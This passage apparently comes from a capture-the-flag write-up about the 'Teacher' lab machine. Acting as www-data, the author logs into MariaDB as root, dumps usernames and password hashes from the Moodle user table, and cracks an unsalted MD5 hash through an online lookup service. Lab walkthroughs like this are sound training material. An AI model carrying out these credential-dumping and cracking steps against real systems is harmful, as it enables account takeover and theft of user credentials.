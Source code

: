 I can use that password to connect to the database and explore. In the user
table, there’s one entry that stands out:

    
    
    www-data@teacher:/var/www/html/moodle$ mysql -u root -p
    Enter password:
    Welcome to the MariaDB monitor.  Commands end with ; or \g.
    Your MariaDB connection id is 709
    Server version: 10.1.26-MariaDB-0+deb9u1 Debian 9.1
    
    Copyright (c) 2000, 2017, Oracle, MariaDB Corporation Ab and others.
    
    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
    
    MariaDB [(none)]> show databases;
    +--------------------+
    | Database           |
    +--------------------+
    | information_schema |
    | moodle             |
    | mysql              |
    | performance_schema |
    | phpmyadmin         |
    +--------------------+
    5 rows in set (0.00 sec)
    
    MariaDB [(none)]> use moodle
    Reading table information for completion of table and column names
    You can turn off this feature to get a quicker startup with -A
    
    Database changed
    MariaDB [moodle]> select username,password from mdl_user;
    +-------------+--------------------------------------------------------------+
    | username    | password                                                     |
    +-------------+--------------------------------------------------------------+
    | guest       | $2y$10$ywuE5gDlAlaCu9R0w7pKW.UCB0jUH6ZVKcitP3gMtUNrAebiGMOdO |
    | admin       | $2y$10$7VPsdU9/9y2J4Mynlt6vM.a4coqHRXsNTOq/1aA6wCWTsF2wtrDO2 |
    | giovanni    | $2y$10$38V6kI7LNudORa7lBAT0q.vsQsv4PemY7rf/M1Zkj/i1VqLO0FSYO |
    | Giovannibak | 7a860966115182402ed06375cf0a22af                             |
    +-------------+--------------------------------------------------------------+
    

While the first three passwords look like blowfish, the last one, Giovannibak
is an md5 hash. I can drop it into [crackstation](https://crackstation.net/)
and get the password:

![1543948091985](https://0xdfimages.gitlab.io/img/1543948091985.png)
